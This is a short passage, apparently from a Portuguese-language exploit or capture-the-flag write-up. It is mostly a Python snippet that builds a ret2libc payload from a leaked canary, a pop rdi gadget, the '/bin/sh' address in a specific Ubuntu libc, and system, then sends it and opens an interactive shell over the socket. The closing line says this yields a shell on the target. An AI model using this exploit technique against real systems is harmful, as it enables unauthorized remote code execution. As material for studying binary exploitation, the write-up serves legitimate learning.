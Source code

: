 ```python
#strings -a -t x libc/libc6_2.31-0ubuntu9_amd64 | grep "/bin/sh"
binsh = 0x1b75aa + libc_base

payload = CANARY
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)
payload += p64(main)

p.send(payload)

t = Telnet()
t.sock = p
t.interact()
```

Ao executar a versão final do exploit, é possível obter o *reverse shell* da máquina alvo, conforme imagem abaixo:
